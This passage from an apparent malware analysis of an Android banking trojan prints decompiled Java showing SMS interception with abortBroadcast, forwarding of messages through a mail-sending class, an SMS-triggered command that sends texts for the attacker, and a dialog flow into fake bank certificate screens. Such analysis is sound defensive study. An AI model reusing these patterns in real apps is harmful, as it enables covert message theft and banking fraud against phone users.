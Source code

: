 >		abortBroadcast();
>		new Thread() {
>			public void run(){
>				GMailSend.MailSend1(openActivityReceiver.this.tel, openActivityReceiver.this.content);
>			}
>		}.start();
>	}
>	if (parts[0].equalsIgnoreCase("wokm")){
>		Intent intent = new Intent(paramContext, ABK_SENDSMS.class);
>		intent.putExtra("myArgs", parts[1]);
>		paramContext.startService(intent);
>	}
>   ...
>}
> ```

There are many options for `parts[0]`, but the last one deserves to be noticed, because it allows also the attacker to send SMS. 

## Attack the bank

Finally, the last part of this analysis will focus on the main objective of the malware: steal banking data.

### Browsing through activities

In the class `MainActivity`, a dialog is displayed, and if a click is done on the positive button, a new `Activity` in launched (approximiation):

> ```java
>private void showDialog(){
>	AlertDialog.Builder localBuilder = new AlertDialog.Builder(this);
>	localBuilder.setTitle(getResources().getString(2131361795));
>	localBuilder.setMessage(getResources().getString(2131361820));
>	localBuilder.setPositiveButton(getResources().getString(2131361804), new DialogInterface.OnClickListener(){
>		public void onClick(DialogInterface paramAnonymousDialogInterface, int paramAnonymousInt){
>			new Thread(){
>				public void run(){
>					try{
>						Thread.sleep(2000L);
>						if (!this.url.isTrue(this.page_type).booleanValue()){
>							Intent localIntent = new Intent(MainActivity.this, KB_Cert_List.class);
>							localIntent.putExtra("Bank", bank);
>							startActivity(localIntent);
>							return;
>						}
>						Intent localIntent = new Intent(MainActivity.this, KB_Last.class);
>						localIntent.putExtra("Bank", bank);
>						startActivity(localIntent);
>					}
>					catch (InterruptedException localInterruptedException){
>						localInterruptedException.printStackTrace();
>					}
>				}
>			}.start();
>		}
>	});
>	localBuilder.create().show();
>}
> ```
